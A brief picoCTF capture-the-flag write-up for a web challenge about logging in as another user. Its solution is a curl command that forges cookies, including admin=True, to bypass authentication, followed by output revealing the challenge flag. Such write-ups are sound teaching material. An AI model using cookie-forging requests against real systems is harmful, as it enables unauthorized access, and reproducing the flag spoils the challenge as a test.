 The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
_________________
## Hints
Hmm it doesn't seem to check anyone's password, except for Joe's?
____________________
## Solucion

``` bash
AideFrayre-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: username=juan; password=juan; admin=True" | grep pico
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   5509      0 --:--:-- --:--:-- --:--:--  5489
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
AideFrayre-picoctf@webshell:~$ 
```